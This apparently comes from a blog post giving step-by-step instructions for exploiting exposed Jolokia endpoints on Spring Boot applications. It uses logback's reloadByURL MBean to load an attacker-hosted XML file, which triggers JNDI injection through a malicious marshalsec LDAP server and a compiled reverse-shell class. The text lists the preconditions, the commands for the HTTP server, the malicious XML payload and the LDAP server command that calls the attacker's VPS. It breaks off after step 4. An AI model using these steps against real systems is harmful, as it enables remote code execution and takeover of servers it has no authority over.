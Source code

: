 **Conditions of use:**

- Target website exists /jolokiaor /actuator/jolokiainterface

- The target uses jolokia-core dependencies (version requirements are currently unknown) and related MBeans exist in the environment

- The target can request the attacker's HTTP server (the request can go out of the Internet)

- JNDI injection is affected by the target JDK version, JDK < 6u201/7u191/8u182/11.0.1 (LDAP method)

**How to use:\
**[](https://www.blogger.com/#)

**Step 1:** View Existing MBeans

- Visit the /jolokia/listinterface to see if the ch.qos.logback.classic.jmx.JMXConfiguratorand reloadByURLkeywords exist.

[](https://www.blogger.com/#)**Step 2:** Host the XML file

- Open a simple HTTP server on the VPS machine you control, and try to use common HTTP service ports (80, 443)

```
# Use python to quickly start the http serverpython2 -m SimpleHTTPServer 80python3 -m http.server 80
```

Place a file XML ending the example.xml following content:

```
< configuration >    < insertFromJNDI env-entry-name = "ldap://your-vps-ip:1389/JNDIObject" as = "appName" /></ configuration >
```

[](https://www.blogger.com/#)**Step 3: **Prepare the Java code for execution

- [Write an optimized Java sample code](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) to bounce the shell JNDIObject.java, Compile in a way compatible with lower versions of JDK:

```
javac - source 1.5 -target 1.5 JNDIObject.java
```

Then copy the generated JNDIObject.classfile to the root directory of the website in step 2 .\
[](https://www.blogger.com/#)Step 4: Set up a malicious LDAP service

Download [marshalsec](https://github.com/mbechler/marshalsec) and use the following commands to set up the corresponding ldap service:

|

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer [http://your-vps-ip:80/](http://your-vps-ip/)#JNDIObject 1389

 |

